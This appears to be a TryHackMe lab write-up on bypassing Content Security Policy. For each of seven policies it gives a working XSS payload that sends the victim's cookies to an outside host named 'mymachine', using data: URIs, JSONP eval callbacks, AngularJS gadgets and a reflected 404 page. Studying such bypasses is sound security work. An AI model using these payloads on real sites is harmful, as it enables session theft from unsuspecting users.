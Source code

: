 # Content Security Policy  writeup
https://tryhackme.com/room/csp

## Task7

### #1
```HTTP
Content-Security-Policy: default-src * 'unsafe-inline';
```

```html
<script>fetch(`http://mymachine/${document.cookie}`)</script>
```

### #2
```HTTP
Content-Security-Policy: default-src *; style-src 'self'; script-src data:
```

```html
<script src="data:application/javascript,fetch(`http://mymachine/${document.cookie}`)"></script>
```

Content-Type指定は無くてもよい模様。
```html
<script src="data:,fetch(`http://mymachine/${document.cookie}`)"></script>
```

### #3
```HTTP
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; 
```

```html
<img id="hoge" src=""><script>document.getElementById('hoge').src="http://mymachine/" + document.cookie;</script>
```

### #4
```HTTP
Content-Security-Policy: default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'
```

```html
<link id="hoge" rel="stylesheet" href="">
<script nonce="abcdef">document.getElementById('hoge').href="http://mymachine/" + document.cookie;</script>
```

### #5
```HTTP
Content-Security-Policy: default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com
```

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=eval(window.open('http%3A%2F%2Fmymachine%2F'.concat(document.cookie)))"></script>
```

### #6
```HTTP
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-eval' cdnjs.cloudflare.com
```

```html
<div class=""ng-app ng-csp>
  <base href=//cdnjs.cloudflare.com/ajax/libs/>
  <script src=angular.js/1.8.1/angular.js></script>
  <script src=prototype/1.7.2/prototype.js></script>
  {{$on.curry.call().console.log($on.curry.call().location=("http://mymachine/"+$on.curry.call().document.cookie))}}
</div>
```

### #7
```HTTP
Content-Security-Policy: default-src 'none'; media-src *; style-src 'self'; script-src 'self'
```

media-srcを使うようなので、audioやvideoが思い当たる。
ヒントが`404`なので、試しに、Target IPに存在しないディレクトリ名・ファイル名を付けてアクセスしてみる。

```
https://target_IP:3007/test/test.html
```

```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 48
ETag: W/"30-cvuYSfoidujsEUt7m9vyFANmAEI"
Date: Sun, 01 Nov 2020 14:34:22 GMT
Connection: keep-alive

Error ( 404 ) - 'Unable to find /test/test.html'
```

URLのうち、ドメイン以下の部分がレスポンスに含まれていることが分かる。  
`script src`から存在しないURLを指定し、ボディ内のJavaScriptが返ってくれば動作することが期待できる。

下記のように書いた場合、スクリプトを含むボディを返すことができる。
```
https://target_IP/'; new Audio('http://mymachine/' + document.cookie);//
```

```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 104
ETag: W/"68-DLlLYD53GpjPWook74UFl+58B7o"
Date: Sun, 01 Nov 2020 14:46:03 GMT
Connection: keep-alive

Error ( 404 ) - 'Unable to find /'; new Audio('http://mymachine/' + document.cookie);//'
```

確認出来たら、これを`script src`から呼ぶように書けば完成。
```html
<script src="'; new Audio('http://mymachine/' + document.cookie);//"></script>
```

